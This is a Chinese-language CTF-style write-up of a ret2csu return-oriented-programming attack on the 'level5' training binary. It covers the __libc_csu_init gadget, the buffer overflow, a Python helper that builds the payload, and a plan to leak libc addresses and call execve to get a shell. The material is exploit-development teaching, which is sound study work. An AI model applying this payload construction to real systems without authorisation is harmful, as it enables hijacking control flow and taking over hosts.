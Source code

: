 * 简介
选择中级 ROP 里的 ret2csu 。

* 思路
主要利用的是 libc 里的 libc_csu_init 函数，这个函数是用来初始化 libc 的，并且方便反弹 shell 的 system 和 execve 等函数都在 libc 里，且大部分应用程序都会调用 libc 里的函数。

所以最基本的思路就是通过 target 里调用的 libc 函数来定位到 libc 里其他函数的地址，比如 execve ，之后再构造需要反弹的 shell 之类的参数，通过栈移出到 ret_addr 那里来执行。

* 设计

** __libc_csu_init 函数的利用
查阅资料得知，该函数有一段代码可以设置 x86_64 中三个用于传递参数的寄存器 rsi rdx 和  rdi ，在 level5 这个 elf 文件中，该代码片段如下：
#+BEGIN_SRC
0x00400600      4c89ea         mov rdx, r13      ; 将r13的值（原来的arg3）复制到rdx
0x00400603      4c89f6         mov rsi, r14      ; 将r14的值（原来的arg2）复制到rsi
0x00400606      4489ff         mov edi, r15d     ; 将r15d的值（原来的arg1）复制到edi
0x00400609      41ff14dc       call qword [r12 + rbx*8] ; 通过[r12 + rbx*8]计算得到的地址调用函数，rbx是索引，每次迭代增加8
0x0040060d      4883c301       add rbx, 1        ; 将rbx加1，指向下一个函数指针
0x00400611      4839eb         cmp rbx, rbp      ; 比较rbx和rbp，检查是否已经遍历了整个数组
0x00400614      75ea           jne 0x400600      ; 如果rbx < rbp，意味着还没调用完所有函数，跳回0x400600继续循环
#+END_SRC

** payload 构造基本思路

查看 vulnerable 函数如下，其中缓冲区大小为128，但是 read 的参数为0x200, 是512，明显比分配的缓冲区要大，所以通过向这个 read 函数输入构造的 payload 来实现攻击。

#+BEGIN_IMAGE
[[file:writeup/20231104_133920.png]]
#+END_IMAGE

通过查看汇编代码，发现缓冲区地址为 ~rbp-0x80~ 。

#+BEGIN_IMAGE
[[file:writeup/20231104_135704.png]]
#+END_IMAGE

因此 payload 的构造需要先填充这128和 rdp 的位置 ~p64(0x00*136)~ 。

之后，查看 __libc_csu_init 中可以利用的 gadget 为 0x0040061a ，于是 payload 的下一步为 ~p64(0x0040061a)~

#+BEGIN_IMAGE
[[file:writeup/20231104_152237.png]]
#+END_IMAGE

之后就是填充栈的地址，完成 rbx rbp ret 关键数据的填充。

再之后就是需要 ret 的地址，开始执行代码，这里是 ret 到 ~call qword [r12 + rbx*8]~ 这一行进行 call 操作。

call 操作完成后，ret 会返回到原来的指令，如下：

#+BEGIN_IMAGE
[[file:writeup/20231104_161424.png]]
#+END_IMAGE

算上 ret 共弹出了 7*8 个字节，所以需要一个 56 字节的填充数据。

最后返回 main 函数方便下一步操作。

所以一个 libc_csu_init 的利用函数如下 (GPT 辅助生成的):

#+BEGIN_SRC python
  def craft_ret2csu_payload(buf_size, csu_gadget_addr, func_gadget_addr, func_to_call, rdi, rsi, rdx, rbx=0, rbp=0, r12=0, r13=0, r14=0, r15=0, extra_padding=b'', next_func_addr=None):
      """
      Craft a ret2csu payload to control the registers and call a function.

      :param buf_size: The size of the buffer before the return address.
      :param csu_gadget_addr: The address of the csu gadget.
      :param func_gadget_addr: The address of the function call gadget.
      :param func_to_call: The function to call, usually GOT entry of a function.
      :param rdi: The value to set in RDI before the function call.
      :param rsi: The value to set in RSI before the function call.
      :param rdx: The value to set in RDX before the function call.
      :param rbx: The value to set in RBX, if needed for the csu gadget.
      :param rbp: The value to set in RBP, if needed for the csu gadget.
      :param r12: The value to set in R12, which should be the function to call minus the offset.
      :param r13: The value to set in R13 (RDI).
      :param r14: The value to set in R14 (RSI).
      :param r15: The value to set in R15 (RDX).
      :param extra_padding: Any extra padding if needed after the csu gadgets.
      :param next_func_addr: The address to return to after the function call (e.g., main).
      :return: The constructed payload.
      """
      from pwn import p64

      # Create padding to reach the return address
      payload = b"A" * buf_size

      # Add the csu_gadget_addr
      payload += p64(csu_gadget_addr)

      # Setup values for the CSU gadget
      # It's important to note that the actual registers are not yet set. This is simply putting values on the stack
      # that will be popped into registers by the CSU gadget.
      payload += p64(rbx)
      payload += p64(rbp)
      payload += p64(r12) # This will be the location to call, plus the appropriate offset
      payload += p64(r13) # Becomes RDI
      payload += p64(r14) # Becomes RSI
      payload += p64(r15) # Becomes RDX

      # Add the func_gadget_addr which will call the function [r12+rbx*8]
      payload += p64(func_gadget_addr)

      # Add extra padding if necessary to align the stack correctly
      payload += extra_padding

      # Finally, add the address of the function to call if necessary
      if next_func_addr:
          payload += p64(next_func_addr)

      return payload

#+END_SRC

询问 GPT 得到以下的栈布局结构：

#+BEGIN_IMAGE
[[file:writeup/20231104_132341.png]]
#+END_IMAGE

** 获取 libc.so 的版本
获取 libc 版本前需要先分清楚一个函数的真实地址和其在 libc.so 中的地址的区别。

+ libc.so 中的地址：就是函数在 libc.so 中的地址，这个地址是不变的。
+ 真实地址：程序执行时，函数在内存中的地址，程序基址+偏移量。

由此，通过程序执行时 csu 的利用，可以获得一个函数在 libc.so 中的地址，由此确定 libc.so 的版本号和在程序中的地址，进一步确定目标函数 (如execve, system) 等函数的具体地址。

通过反编译 level5 这个程序可以看出，它使用了 write 和 read 两个函数。

#+BEGIN_IMAGE
[[file:writeup/20231103_153707.png]]
#+END_IMAGE

#+BEGIN_IMAGE
[[file:writeup/20231103_153742.png]]
#+END_IMAGE

于是可以通过这两个函数的地址来确定 libc 的版本等信息。


* 流程

基本流程如下：

1. 第一次利用 csu ，获取 write 相对 GTO 的地址偏移量，确定 libc 的版本，从而获取 execve 的地址偏移量。
2. 写入 .bss 段。
3. 最后一次利用 csu ，执行 execve 反弹 shell ，完成 ROP 利用。

* tip

不能把静态调试的指令地址和实际执行的数据地址弄混，栈之类的数据都是运行时在内存里随机分配的，没法直接操作，并且向 r12 rbx 这种寄存器也是通过溢出所操作不了的，而 __libc_csu_init 能利用的原因就是因为上文提到的 gadget ，他从栈里弹数据写道寄存器里，这就给了我们操作的空间。

ret 指令：在 x64 机器中，弹出8个字节的数据，并作为地址返回开始执行上面的指令许列，这里的重点也是从栈上弹出地址，操作栈就可以劫持控制流。

* 工具
- radare2

